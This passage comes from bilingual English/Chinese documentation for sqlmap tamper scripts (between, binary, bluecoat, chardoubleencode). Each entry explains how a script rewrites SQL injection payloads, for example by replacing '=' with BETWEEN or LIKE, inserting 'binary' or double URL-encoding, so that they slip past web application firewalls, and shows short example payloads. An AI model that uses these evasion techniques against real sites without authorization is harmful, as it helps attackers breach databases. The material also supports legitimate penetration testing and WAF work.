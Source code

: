 > Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' and equals operator ('=') with 'BETWEEN # AND #'

将 `>` 字符替换为 NOT BETWEEN 0 AND

将 `=` 字符替换为 BETWEEN # AND #

```py
>>> tamper('1 AND A > B--')
'1 AND A NOT BETWEEN 0 AND B--'
>>> tamper('1 AND A = B--')
'1 AND A BETWEEN B AND B--'
>>> tamper('1 AND LAST_INSERT_ROWID()=LAST_INSERT_ROWID()')
'1 AND LAST_INSERT_ROWID() BETWEEN LAST_INSERT_ROWID() AND LAST_INSERT_ROWID()'
```

### binary.py

> Injects keyword binary where possible

Requirement:
* MySQL

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, NULL')
'1 UNION ALL SELECT binary NULL, binary NULL, binary NULL'
>>> tamper('1 AND 2>1')
'1 AND binary 2>binary 1'
>>> tamper('CASE WHEN (1=1) THEN 1 ELSE 0x28 END')
'CASE WHEN (binary 1=binary 1) THEN binary 1 ELSE binary 0x28 END'
```

### bluecoat.py

> Replaces space character after SQL statement with a valid random blank character. Afterwards replace character '=' with operator LIKE

将 sql 语句后的空格字符替换为 `%09`，`LIKE` 替换字符 `=`

Requirement:
* Blue Coat SGOS with WAF activated as documented in https://kb.bluecoat.com/index?page=content&id=FAQ2147

Tested against:
* MySQL 5.1, SGOS

```py
>>> tamper('SELECT id FROM users WHERE id = 1')
'SELECT%09id FROM%09users WHERE%09id LIKE 1'
```

### chardoubleencode.py

> Double URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %2553%2545%254C%2545%2543%2554)

二次URL编码
